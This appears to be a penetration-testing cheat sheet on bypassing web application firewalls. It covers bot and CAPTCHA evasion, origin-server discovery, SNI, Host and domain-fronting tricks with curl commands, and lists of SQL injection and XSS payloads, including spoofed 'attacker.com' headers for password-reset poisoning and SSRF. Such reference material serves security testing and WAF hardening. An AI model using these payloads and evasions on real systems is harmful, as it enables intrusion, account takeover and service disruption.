






# WAF Bypass Techniques

A Web Application Firewall (WAF) is a security tool that protects web applications from various attacks by analyzing HTTP requests and applying rules to identify and block suspicious traffic. This document outlines effective techniques to bypass WAF protections during security assessments.



## WAF Overview

WAFs operate in two primary models:

- **Negative Model (Blacklist-based)**: Uses pre-set signatures to block known malicious requests, effective against common vulnerabilities
- **Positive Model (Whitelist-based)**: Only allows requests that match specific patterns, blocking everything else by default

## Popular WAFs

- **Cloudflare** - Identified by `__cf_bm`, `cf_clearance`, `cf_chl_*` cookies and "/cdn-cgi/" routes (cookies rotate roughly every 30 min)
- **Akamai**
- **Imperva/Incapsula** - Look for "X-CDN: Incapsula" headers
- **AWS WAF** - Commonly sets `AWSALB` or `AWSALBCORS` cookies
- **Sucuri** - Check for "X-Sucuri-ID" headers
- **DataDome**
- **F5 Networks**
- **Barracuda**
- **Fortinet**
- **ModSecurity** - Open-source WAF, commonly used with Apache
- **NAXSI** - Open-source WAF for NGINX
- **Azure Front Door**
- **Fastly Next-Gen WAF**
- **Cloudflare AI WAF**
- **Radware**
- **Coraza** - Modern open‑source WAF written in Go

## Detection Methods



1. **Inspect Control Pages** - Many WAFs display specific pages when blocking access
2. **Analyze HTTP Headers** - Check response headers for WAF-specific indicators
3. **Examine Cookies** - WAFs often set specific cookies (e.g., cf_clearance for Cloudflare)
4. **Look for Specific Routes** - e.g., /cdn-cgi/ for Cloudflare
5. **Check JavaScript Objects** - WAFs inject specific JS objects (e.g., `\_cf_chl_opt`)
6. **JA3/JA4/TLS Fingerprints** - Compare your client’s TLS fingerprint with common browser fingerprints; mismatches are often blocked.
7. **HTTP/2/3 Support** - Identify protocol negotiation; some WAF policies differ by protocol.

### Fingerprinting WAFs

Some specific fingerprints of common WAFs:

- **Apache Generic**: Writing method type in lowercase (e.g., `get` instead of `GET`)
- **IIS Generic**: Using tabs before method (e.g., `    GET /login.php HTTP/1.1`)
- **Cloudflare**: Challenge pages with JavaScript verification
- **ModSecurity**: Specific error messages and block pages
- **AWS WAF**: AWSELB cookies and specific headers
- **Fastly Next‑Gen WAF**: `fastly-debug-*` headers (when enabled), service IDs in responses
- **Cloudflare Bot Fight Mode/AI WAF**: presence of Turnstile, managed challenge flows, Bot Management headers

## Bypass Techniques

### 1. Use Residential IPs

- **Data center IPs** are easily detected by WAFs
- **Residential IPs** appear legitimate as they come from ISPs
- **Mobile IPs** are useful for websites showing different content for mobile users
- Use proxy rotation services to avoid IP-based rate limiting

### 2. Fortify Headless Browsers

Headless browsers often set special headers or variables that help WAFs recognize them as automation tools. Use the following libraries to make headless browsers appear more human-like:

- `undetected_chromedriver` for Selenium
- `puppeteer-extra-plugin-stealth` for Puppeteer/Playwright
- `playwright-extra` with `playwright-extra-plugin-stealth` for Playwright

### 3. Use Web Scraping APIs

Services like ZenRows implement sophisticated anti-bot techniques including:

- Premium proxies
- JS rendering
- WAF bypassing capabilities
- CAPTCHA solving
- Protocol emulation (HTTP/2 push/HTTP/3), humanization features

### 4. Call the Origin Server Directly

- Use services like Shodan or tools like CloudFlair to find the origin server IP
- Forge requests to make them appear as coming from a valid domain
- Bypass the WAF layer completely by contacting the server directly
- Check historical DNS records (e.g., with `securitytrails` API) – 2024 research found ~40 % of Fortune‑100 origins exposed via stale A records
- Check `Alt-Svc` leakage for HTTP/3, misconfigured Workers/Edge redirects exposing bucket hostnames



### 5. Utilize WAF Solvers

- **BypassWAF** - Overcomes firewalls by looking for old DNS A records
- **Cfscrape** - Python module to bypass Cloudflare protection
- **Cloudscraper** - Python library to avoid Cloudflare waiting room

### 6. Reverse Engineer JavaScript Challenges

- Analyze injected JavaScript snippets used by WAFs
- Understand how the challenge works
- Create custom solutions that satisfy the challenge requirements

### 7. CAPTCHA Bypass Techniques

- **Cloudflare Turnstile** – low‑friction CAPTCHA replacement; see `cloudflare_turnstile_bypass` PoC (GUI‑driven, YMMV)
- **Use CAPTCHA solving services** - Though often expensive and not always reliable
- **Utilize automated CAPTCHA solvers** - Various libraries exist for different CAPTCHA types
- **Implement prevention measures** - Use techniques that prevent CAPTCHAs from appearing

#### Cloudflare Turnstile Bypass

```javascript
// Visibility bypass: Complete Turnstile in hidden iframe
const iframe = document.createElement("iframe");
iframe.style.display = "none";
iframe.src = "https://challenges.cloudflare.com/...";
document.body.appendChild(iframe);

// Token reuse test: Check if cf_clearance tokens are single-use
// Save token from successful solve, attempt reuse across sessions

// Timing attack: Solve challenge, delay submission to test token expiry
setTimeout(() => submitWithToken(token), 60000);
```

**Tools:**

- `cf-clearance-scraper` (2024 fork with Turnstile support)
- `cloudflare-turnstile-solver` - Automated solving with browser automation
- `turnstile-bypass` - Research tool for testing Turnstile implementations

### 8. Avoid Honeypot Traps

- Don't interact with invisible elements (`display: none`)
- Skip elements with zero opacity or positioned off-screen
- Analyze HTML structure to identify potential honeypots
- Avoid filling hidden form fields

### 9. Defeat Browser Fingerprinting

- Randomize or spoof canvas fingerprinting results
- Use plugins that add noise to fingerprint data
- Modify user agent and other HTTP headers periodically
- Spoof hardware and software features to appear as different devices

### 10. TLS Fingerprinting Evasion

- Modify TLS parameters during handshake
- Use libraries that allow customization of SSL/TLS configuration
- Match TLS fingerprints of legitimate browsers
- Randomise both JA3 and JA4 fingerprints using libraries such as `noble-tls` or `ja4py`
- Consider using the `abuse-ssl-bypass-waf` tool to find supported SSL/TLS ciphers
- Align cipher suites, ALPN order, and signature algorithms with target browser versions.

### 11. Simulate Human Behavior

- Add random delays between requests
- Follow logical navigation patterns
- Implement mouse movements and scrolling behavior
- Interact with page elements naturally
- Vary request patterns and timing
- Use browser engines (Playwright/Selenium) with stealth plugins to match DOM APIs and canvas behavior.



### 12. SQL Injection Specific WAF Bypasses

- **Case variation**: `SeLeCt`, `UnIoN` instead of `SELECT`, `UNION`
- **Comment injection**: `UN/**/ION SE/**/LECT` to break up keywords
- **Alternate encodings**:
  - URL encoding: `UNION` → `%55%4E%49%4F%4E`
  - Hex encoding: `SELECT` → `0x53454C454354`
  - Unicode encoding
- **Whitespace manipulation**: `UNION/**/SELECT` or using tabs/newlines/carriage returns
- **Numeric representations**:
  - `1` → `1-0`, `1+0`, `CHAR(49)`
- **String concatenation**:
  - MySQL: `CONCAT('a','b')`
  - Oracle: `'a'||'b'`
  - MSSQL: `'a'+'b'`
- **Null byte injection**:
  ```
  %00' UNION SELECT password FROM Users WHERE username='xyz'--
  ```
- **Double encoding**:
  ```
  First pass: / → %2f
  Second pass: %2f → %252f
  ```
- **SQLMAP tamper scripts**:
  - Use Atlas tool for suggesting tamper scripts
  - Try multiple tamper scripts in combination
  - Customize tamper scripts for specific WAFs
- **JSON-Based SQL Injection** (CVE-2023-50969):
  - Many WAFs (AWS, Cloudflare, F5, Imperva) don't properly support JSON syntax in SQL
  - Example: `{"id": {"$gt": "' OR 1=1--"}}`
  - Use SQLMap with JSON parameter support for exploitation
- Leverage mixed encodings (half‑width Unicode, overlong UTF‑8), embedded comments, and case folding differences.



### 13. XSS-Specific WAF Bypasses

- **Context-Aware Payloads**: Craft payloads based on where they will be inserted:

  ```
  # HTML Context
  

  # HTML Attribute Context
  " onmouseover="alert(1)

  # JavaScript Context
  ';alert(1);//
  ```

- **Mutation XSS (mXSS)**: Use HTML parsing quirks to bypass sanitizers:

  ```
  <noscript><p title="</noscript>">
  ```

- **Alternative Tag Usage**:

  ```
  <svg onload=alert(1)>
  <body onload=alert(1)>
  <details open ontoggle=alert(1)>
  ```

- **JavaScript Obfuscation**:

  ```
  <script>eval(atob('YWxlcnQoMSk='))</script>
  
  ```

- **Avoiding Blacklisted Words**:

  ```
  <script>al\u0065rt(1)</script>
  <svg onload=setTimeout('al'+'ert(1)')>
  ```

- **Protocol Obfuscation**:

  ```
  <a href="javas&#99;ript:alert(1)">Click Me</a>
  <a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">Click Me</a>
  ```

- **CSS-Based Attacks**:

  ```
  <style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="alert(1)"></xss>
  <div style="background-image:url('javascript:alert(1)')">
  ```

- **CSP Bypass Techniques**:
  - JSONP endpoint abuse: `<script src="https://allowed-domain.com/jsonp?callback=alert(1)"></script>`
  - DOM clobbering: `<form id=self><input name=location>` then `self.location`
  - Using allowed domains: Find script sources whitelisted in CSP that can be abused
  - Abuse JSONP, postMessage, or gadget endpoints on allowed origins; check Trusted Types gaps.

- **Polyglot XSS**: Payloads that work in multiple contexts:
  ```
  jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
  ```

### 14. HTTP Protocol Level Bypasses

- **HTTP Method Obfuscation**:
  - Using uncommon HTTP methods
  - Modifying case of HTTP methods (e.g., `gEt` instead of `GET`)
  - Adding tabs or spaces before HTTP methods

- **Request Header Manipulation**:
  - Adding excessive headers to confuse WAF processing
  - Using duplicate headers with different values
  - Adding headers that make the request appear to come from internal networks or spoof identity. Many applications, especially behind misconfigured reverse proxies, trust headers like `X-Forwarded-For` or `X-Forwarded-Host` to determine the client's IP or the requested host. Manipulating these can lead to various vulnerabilities:
    - Password Reset Poisoning: Injecting headers like `X-Forwarded-Host: attacker.com` can cause the application to generate password reset links pointing to the attacker's domain.
    - Bypassing IP Restrictions: Using `X-Forwarded-For: <trusted_ip>` or similar headers can bypass IP-based access controls if the server trusts the header.
    - Open Redirects: Manipulating host-related headers (`X-Forwarded-Host`, `Referer`) can redirect users to malicious sites.
    - SSRF: Headers like `X-Forwarded-For` or `X-Real-IP` can be manipulated to target internal IPs (e.g., `169.254.169.254` for AWS metadata service).
  - Common Headers for Spoofing/Bypass: Attackers may use a variety of headers to manipulate server behavior or bypass WAF rules. Some common examples include:
    ```
    X-Forwarded-Host: attacker.com
    X-Forwarded-For: 127.0.0.1
    X-Client-IP: 127.0.0.1
    Client-IP: 127.0.0.1
    X-Real-IP: 127.0.0.1
    X-Originating-IP: 127.0.0.1
    X-Remote-IP: 127.0.0.1
    X-Remote-Addr: 127.0.0.1
    Forwarded: for=127.0.0.1;host=attacker.com
    Referer: attacker.com
    Origin: null / attacker.com
    # And many variations like X-Forwarded, X-Forwarded-By, etc.
    ```

- **HTTP Parameter Pollution**:
  - Using multiple parameters with the same name

  ```
  ?id=safe&id=malicious
  ```

  - Mix sources (query, body, headers, cookies) to exploit precedence ambiguities across proxies/gateways.

- **HTTP RFC Inconsistencies**:
  - Exploiting differences in how servers handle HTTP specification
  - Using newline variations (CR, LF, CRLF)
  - Adding unexpected line breaks in headers

- **Host Header Spoofing**:
  - The `Host` header specifies the hostname the client wants to connect to, crucial for virtual hosting and reverse proxies.
  - If a WAF/proxy relies solely on the `Host` header for filtering, it can be bypassed by sending a legitimate `Host` header value while the actual connection (e.g., SNI in TLS, IP address) points to a blocked or different target.
  - **Mechanism**:
    1. Client connects to `evil.example.com` (e.g., IP address of `evil.example.com`).
    2. The SNI in the TLS handshake might be `evil.example.com`.
    3. The HTTP `Host` header is set to `legit.example.net` (a domain allowed by the WAF).
    4. The WAF sees `Host: legit.example.net` and may allow the request, which is then routed to `evil.example.com` by the underlying infrastructure if it uses the `Host` header for routing or if the IP was already resolved to `evil.example.com`.

  - **Example with `curl`**:

    ```bash
    # SNI will be evil.example.com (matching the URL)
    # Host header is spoofed to legit.example.net
    curl -H "Host: legit.example.net" https://evil.example.com
    ```

    ```mermaid
    sequenceDiagram
        participant Alice as Alice (Attacker)
        participant Proxy as WAF/Proxy
        participant TargetServer as evil.example.com
        participant AllowedServer as legit.example.net

        Alice->>Proxy: TLS Handshake (SNI: evil.example.com, connects to IP of evil.example.com)
        Proxy-->>TargetServer: Forwards TLS Handshake
        TargetServer-->>Proxy: TLS Handshake Response
        Proxy-->>Alice: TLS Handshake Response

        Alice->>Proxy: HTTP Request (Host: legit.example.net) [Encrypted in TLS]
        Note over Proxy: Proxy inspects Host header 'legit.example.net' (Allowed)
        Proxy->>TargetServer: HTTP Request (Host: legit.example.net)
        TargetServer->>Proxy: HTTP Response
        Proxy->>Alice: HTTP Response
    ```

  - **Applicability**:
    - Bypasses filters that only check the `Host` header.
    - Can bypass restrictions like file upload size limits if the spoofed `Host` points to a domain with fewer restrictions.
  - **Protection**:
    - WAFs should verify that the hostname in the SNI and the `Host` header are identical.
    - If they mismatch, the request should be blocked (e.g., Fortinet's "Domain Fronting Protection").
    - This check prevents the simple Host Header Spoofing described.
    - Enforce strict ALPN and certificate SAN checks; for HTTP/2 enforce `:authority` ≈ SNI.

### 15. Advanced Techniques

- **HTTP Request Manipulation**:
  - **Multiple Content-Encoding Headers**: Send multiple headers with conflicting values
    ```
    Content-Encoding: invalid
    Content-Encoding: gzip
    ```
  - **8k Bypass**: Overloading request parameters to overwhelm WAF processing
  - **Unicode Normalization Exploitation**: Using characters that normalize to malicious values
    ```
    # Using NFKD normalization forms
    unicodedata.normalize('NFKD', payload)
    ```

- **WAF Fuzzing Automation**:
  - Using tools like "Wafer" to automate WAF bypass discovery
  - Systematically testing edge cases in WAF rule processing
  - Combining multiple evasion techniques in automated sequences
  - Add feedback‑driven payload evolution (genetic algorithms) to evade ML‑based detections.

- **Advanced Encoding Techniques**:
  - **HTML Tag Encodings**: Injecting symbols at specific points
  - **Specialized DOM Events**: Triggering DOM events that bypass filtering
  - **Double Unicode Escaping**: `\u00\u0036\u0031` for character '1'
  - **MIME Smuggling**: multipart boundary tricks, mixed `Content‑Type` declarations through chained proxies.

- **IP Fragmentation Attacks**:
  - Fragment HTTP requests across multiple packets
  - WAFs may reassemble these differently than the target server
  - Beware of modern middleboxes normalizing or dropping fragments; measure viability before use.

- **Timing-Based Techniques**:
  - Leveraging WAF timeout discrepancies
  - Sending requests when WAF processing is at peak load
  - Use request coalescing and long‑lived HTTP/2 streams to alter inspection timing.

- **Machine Learning-Based Evasion**:
  - Using ML to generate payloads that evade detection
  - Adjusting payloads based on WAF feedback
  - Gradually evolving attack patterns to avoid signature detection
  - Cloudflare **AI WAF Attack Score** can be tricked by embedding payloads in lesser‑weighted features (e.g., multipart filenames)
  - Vary entropy and payload tokenization to mislead n‑gram/embedding models.

- **Browser Bugs Exploitation**:
  - Leveraging browser-specific parsing quirks
  - Using differences between how WAFs and browsers interpret content

### 16. HTTP/2, HTTP/3 & Advanced Protocol Bypasses

- **HTTP/2 `:authority` Header Bypass**:
  - HTTP/2 replaces the `Host` header with the `:authority` pseudo-header for the target URI. The `:authority` field includes the hostname and optionally the port.
  - WAFs/proxies not correctly parsing the binary and compressed HTTP/2 protocol may fail to extract or compare the `:authority` field with the SNI.
  - This can bypass domain fronting or `Host` header validation checks that rely on HTTP/1.1's `Host` header.
  - For instance, some WAFs' domain fronting protection mechanisms may only be effective for HTTP/1.1 and not for HTTP/2.
  - Example (`curl` automatically uses `:authority` for HTTP/2 when a `Host` header is provided):
    ```bash
    curl --http2 -H "Host: legit-looking-domain.com" https://actual-target-server.com/index.html
    ```

- **HTTP/3 (QUIC) Bypass**:
  - HTTP/3 operates over QUIC (UDP), which multiplexes streams and integrates TLS 1.3+.
  - If a WAF or proxy does not support or deeply inspect QUIC/HTTP/3 traffic, it cannot analyze the encrypted stream to apply policies based on HTTP content or SNI (within QUIC's TLS handshake).
  - Enterprises may block outgoing UDP to non-standard ports, but HTTP/3 typically uses 443/UDP. If allowed, it can be a bypass vector.
  - Servers can announce HTTP/3 support via the `Alt-Svc` HTTP header in responses to HTTP/1.1 or HTTP/2 requests.
  - Example (`curl`):
    ```bash
    curl --http3 https://example.net
    ```

- **HTTP/2 Rapid Reset flood** (CVE‑2023‑44487): send a burst of `RST_STREAM` frames to overwhelm back‑ends while front‑end WAFs proxy at HTTP/1.1.
- **HTTP/2 CONTINUATION Flooding** (2024 research): stress header compression/HPACK handling on middleboxes.

### 17. GraphQL‑Specific WAF Bypasses

- **Introspection & alias spamming**: use deeply nested aliases to evade depth limits.
- **Batch operations**: bundle many queries in one request to sneak payloads through superficial query‑string filters.
- **Query name tampering**: mask malicious fields behind benign names.
- **Tools**: `graphql‑cop`, `inql`, `Escape p‑cli` for automated fuzzing.
- Test batched queries with differing operation names, file upload scalars, and custom directives; many WAFs only parse shallow GraphQL.

### 18. SNI (Server Name Indication) Manipulation & Evasion

Server Name Indication (SNI) is a TLS protocol extension where the client indicates the hostname it is attempting to connect to during the TLS handshake. This is crucial for servers hosting multiple websites on a single IP address. Since the SNI is typically sent in cleartext (in the `ClientHello` message, unless Encrypted Client Hello - ECH - is used), web filters can inspect it to enforce policies.

SNI spoofing is a technique to bypass web filters that rely solely or primarily on the SNI value to allow or block requests. The attacker sends an SNI for a whitelisted domain while directing the actual traffic to a different, potentially blocked, server IP address.

**Mechanism:**

1.  The client initiates a TLS handshake, providing an SNI of an allowed domain (e.g., `allowed.example.com`) to the web filter/proxy.
2.  Simultaneously, the client directs the actual TCP connection to the IP address of the target server (e.g., `198.51.100.23` for `blocked.example.org`).
3.  The HTTP `Host` header in the subsequent (encrypted) HTTP request might also be set to the actual target server (`blocked.example.org`).

**Examples:**

- **Using `openssl`**:

  ```bash
  # Connects to IP 198.51.100.23 (blocked.example.org)
  # but presents 'allowed.example.com' as SNI
  openssl s_client -connect 198.51.100.23:443 -servername allowed.example.com
  ```

- **Using `curl`**:
  ```bash
  # Tells curl to connect to 198.51.100.23 (IP of blocked.example.org)
  # for any request to allowed.example.com.
  # The SNI will be 'allowed.example.com'.
  # The Host header is explicitly set to 'blocked.example.org'.
  curl -k --connect-to allowed.example.com::198.51.100.23 \
       -H "Host: blocked.example.org" \
       https://allowed.example.com
  ```

  - `-k`: Ignores certificate warnings (since the presented cert for `blocked.example.org` won't match `allowed.example.com`).
  - `--connect-to host1:port1:host2:port2`: Resolves `host1:port1` to `host2:port2`. Here, `allowed.example.com` (default port 443) is directed to `198.51.100.23` (default port 443 if not specified after IP).
  - `-H "Host: blocked.example.org"`: Sets the HTTP Host header for the application layer.

**Applicability & Proxy Types:**

- **Basic SNI Filters**: Effective against filters that only check the SNI value.
- **Transparent Proxies**: Can be effective as the client controls the DNS resolution (or IP choice) and the initial TLS handshake.
- **Explicit Proxies (Normal/Non-Transparent)**:
  - Can still be effective. The client can specify the target IP address in the HTTP `CONNECT` request to the proxy.
  - The client then performs the TLS handshake through the proxy, sending the spoofed SNI.
  - Example with `curl` and an explicit proxy:
    ```bash
    curl --proxy http://proxy.internal:8080 -k \
         --connect-to allowed.example.com::198.51.100.23 \
         -H "Host: blocked.example.org" \
         https://allowed.example.com
    ```
  - **Proxy Behavior Variance**: Some proxies might honor the IP in the `CONNECT` request, while others might resolve the hostname from the SNI themselves, potentially thwarting the bypass.
- **TLS Inspecting Proxies**: SNI spoofing can sometimes work even if the proxy performs TLS inspection, provided the proxy forwards the client's spoofed SNI and connects to the IP specified in the `CONNECT` request (rather than resolving the spoofed SNI).

**Limitations and Protections:**

- **SNI vs. Certificate Validation**: Advanced WAFs/filters compare the SNI with the Subject Alternative Name (SAN) or Common Name (CN) in the server's presented TLS certificate.
  - If there's a mismatch, the connection might be flagged or dropped (e.g., FortiGate's "Server certificate SNI check" set to "Strict").
- **Bypassing Certificate Checks**: To bypass this, an attacker would need to control the server certificate of the target (`blocked.example.org`) to match the spoofed SNI (`allowed.example.com`). This could involve using a self-signed certificate for `allowed.example.com` on the attacker-controlled server.
- **Certificate Chain Verification**: Filters should always validate the entire certificate chain and reject connections with untrusted certificates (e.g., self-signed ones if not explicitly trusted by the filter/client policy).

- **Omitting SNI Bypass**:
  - The SNI extension in the TLS `ClientHello` is optional according to RFC 6066.
  - Clients can omit SNI by connecting directly to the server's IP address instead of using a hostname.
  - **Mechanism**:
    1. Client establishes a TCP connection to the server's IP address.
    2. TLS handshake begins; `ClientHello` is sent without the SNI extension.
    3. The server might return a default certificate (e.g., for a generic CDN hostname), potentially causing a mismatch warning that the client might need to ignore (e.g., `curl --insecure`).
    4. The HTTP `Host` header in the encrypted request can still be set to the desired target hostname.
  - **Example (`curl`)**:
    ```bash
    # Request to IP 151.101.194.133, no SNI sent.
    # Spoofed Host header: compass-test.global.ssl.fastly.net
    curl --insecure -v -H "Host: compass-test.global.ssl.fastly.net" https://151.101.194.133/index.html
    ```
  - **Impact**: This can bypass WAFs/proxies that rely on the presence of SNI for policy enforcement or domain fronting detection (which compares SNI to `Host` header).
    - Explicit proxies might block direct IP connections in `CONNECT` requests if configured to do so.
    - Transparent proxies might be more susceptible if they only inspect SNI.

- **Encrypted Client Hello (ECH) Bypass**:
  - ECH (Encrypted Client Hello, successor to ESNI) encrypts most of the `ClientHello` message, including the SNI.
  - This prevents network intermediaries (WAFs, proxies, ISPs) from snooping on the SNI and thus determining the intended destination server.
  - If a WAF relies on SNI for filtering or routing, ECH effectively bypasses this by making the SNI unreadable.
  - **Mitigation (Defensive)**: Defenders might choose to block ECH connections or attempt to strip ECH information from DNS `HTTPS` records. However, this can break legitimate ECH-enabled clients and has privacy implications.
  - Note: ECH support is expanding in modern browsers; expect increased prevalence in 2025.

### 19. Domain Fronting

Domain fronting is a technique to bypass web filters and censorship by masking the true destination of a connection. It leverages Content Delivery Networks (CDNs) by sending a request with an SNI (Server Name Indication) of a legitimate, allowed domain, while the HTTP `Host` header specifies a different, potentially blocked, domain that is also served by the same CDN.

**Mechanism:**

1.  The client initiates a TLS handshake with a CDN, using an SNI for an allowed domain (e.g., `allowed-via-cdn.com`).
2.  The web filter sees the connection to the CDN and the allowed SNI, potentially permitting the connection.
3.  The HTTP `Host` header within the encrypted TLS connection is set to the actual target server (e.g., `blocked-target.com`).
